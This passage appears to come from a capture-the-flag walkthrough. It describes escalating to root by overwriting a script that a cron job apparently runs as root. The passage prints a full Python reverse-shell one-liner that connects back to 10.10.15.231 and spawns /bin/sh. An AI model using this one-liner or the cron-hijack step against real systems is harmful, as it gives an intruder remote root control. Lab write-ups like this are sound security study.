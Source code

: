 ![output.txt](screenshots/11_outputtxt.PNG)

This looks like the output of the Python script we saw in sun's Documents folder previously.  It is possible that we can run the script as root.  Let's check with ```bash sudo -l```:
![sudo as sun](screenshots/12_sudo-l.PNG)

Looks like we will need sun's password see what sun can run as sudo.  Maybe something else is going on.  After poking around for a few minutes then checking the directory again, I noticed that the file was modified what seemed like once every 5 minutes.  Perhaps there is a cron job running the script.  If so, we should be able to replace the script's contents with whatever we want, and root will run it.
We will overwrite it with the same code that we used to spawn the shell for sun but with a different port number (44552 instead of 44551):
```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.231",44552));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > Documents/script.py
```
After waiting a few minutes:
![Root shell](screenshots/13_receive_root_shell.PNG)


[1]: https://expressjs.com/ "Express JS Framework"
[2]: http://www.websecgeeks.com/2017/04/pentesting-nodejs-application-nodejs.html "Web Security Geeks - Penetration Testing Node.js Application"
[3]: https://nodejs.org/api/child_process.html#child_process_child_process_exec_command_options_callback "Node.js Documentation: child_process"